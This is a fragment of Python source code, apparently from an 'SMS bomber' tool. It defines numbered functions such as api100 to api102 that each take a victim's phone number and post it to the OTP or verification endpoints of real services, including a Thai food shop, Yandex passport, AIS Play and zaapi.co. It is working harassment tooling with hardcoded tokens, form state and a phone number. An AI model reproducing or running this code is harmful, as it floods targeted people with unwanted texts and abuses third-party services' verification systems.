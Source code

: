     post("https://www.fooddiaryonlineshop.com/RegisterNewCustomer",headers=header,data=f"__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=Ble7%2FRYu%2F1RjtS%2FfO9KgKdBWKCntkuS%2F0x7Qh6w4mnY7kV82h741dj1JFc5xnFbW7yacbboe0%2B5nTVVF%2BFSGEHQvaTkL4HQ5qDJbZMBQEt73YZZ%2FZON2LWw193tcYCjDwL3y3vy3lks%2BduyUOCNMwlwNpfrPDsvbhgT4qDCekWgvnnFrzFGCtQYO6cTU3Lax6YpvUbBld0oKgkWcHg0efFp3K2S2fLx%2BK4oTVGr6bq1QdKl5uPHqtL04IHkdy7X6Wbf6lUTQgOa5q5wLfE2KUGHWUUsYjahMwHmRCaVSxB7P1eDmiZ%2BQNku9pHs7m50GtCSePXPSfYtFBumDCM2R1XklFOdYV4X1jJgt%2Fe3MGV1Xmj7cRE%2FsBk1u%2FMYfN%2BmXb5dxruqgDuhXAnWP%2F8Syot1XGEUtVclmfF5NIB0KkCu6He8dheN%2BhEkupLqzP6Ip6OAMNnvssm1rMngwDy7ipCNC3dPXMj83IpBuuD1LWbPr3x3ksf0%2FrGL4yM7jvr8a99ifPcJPcmJzY%2Feay0PKwdwA3u2KTyCoXVgMZwqvsdRoyRHlFooZ3AHoBNsQrkegtyk5eHtjpBTLHD1dzQT3R%2FRaYIbencMw%2B5BbVJWiPzVTXF%2BiQ9A64UcUP9adMciJa7TudfL331vSRd%2FwVMkA%2B1fDtVrfBBi8%2BHbta7BsuVjk0ZodiLMuloOsYaTSilSLmidUpEZFsj0Zhz%2FpwGu%2FGKMixcG95PmRkOdpAj4d2D8%3D&__VIEWSTATEGENERATOR=94756D41&ctl00%24MainContent%24PageGUIDForSession=&ctl00%24MainContent%24rdEmail=U&ctl00%24MainContent%24rdMobile=C&ctl00%24MainContent%24cbpEmptry%24txtMobileNo%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B{phone}%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtMobileNo=0958816629&ctl00%24MainContent%24cbpEmptry%24txtOTP%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtOTP=&ctl00%24MainContent%24cbpEmptry%24chkRead=U&ctl00%24MainContent%24cbpEmptry%24chkConsent=U&DXScript=1_16%2C1_17%2C1_28%2C1_66%2C1_18%2C1_19%2C1_20%2C1_21%2C1_224%2C1_225%2C1_230%2C1_229%2C1_51%2C1_22%2C1_14%2C1_226%2C1_52&DXCss=1_248%2C1_69%2C1_71%2C1_250%2C1_247%2C1_75%2C1_74%2C1_251%2C%2FContent%2Fcss%3Fv%3DFILIkBdKK0FrNSvnRmezf5qTxic9NR7FOzzIJ8iQAKQ1%2Cfavicon.ico%2C..%2F..%2FContent%2Fbootstrap.min.css%2CStyles%2Fbutton.css&__CALLBACKID=ctl00%24MainContent%24cbpEmptry&__CALLBACKPARAM=c0%3ARequestOTP&__EVENTVALIDATION=N%2FlR5TtQKjdRNUQy0QFSjIjFW06D%2Fdy2VFm5Zl%2FTN%2FlsEYUsQVZwH8qpQ5sFzI0PBX2ZLH3HhxXkkZRvuada%2Bu6zsHxSgV3In38ahlf75%2Blm%2BguMSbwp%2FSxuo4Cc3cm5ZFVYYR9eVfvdwG4YsxWYbA%3D%3D")

    



#yandex

def api100(phone):

    post("https://passport.yandex.com/registration-validations/phone-confirm-code-submit",headers=header,data=f"track_id=b3dc4a29a19d038f1cd522187726d7bb5a&csrf_token=e150046ff026a517c15d45444294ffa3275b140c%3A1645857142788&number={phone}&isCodeWithFormat=true&confirm_method=by_sms")

    

def api101(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    res=session.post("https://srfng.ais.co.th/api/v2/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})



def api102(phone):

    post("https://api.zaapi.co/api/store/auth/otp/login",json={"phoneNumber":f"+66{phone[1:]}","namespace":"zaapi-buyers"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})
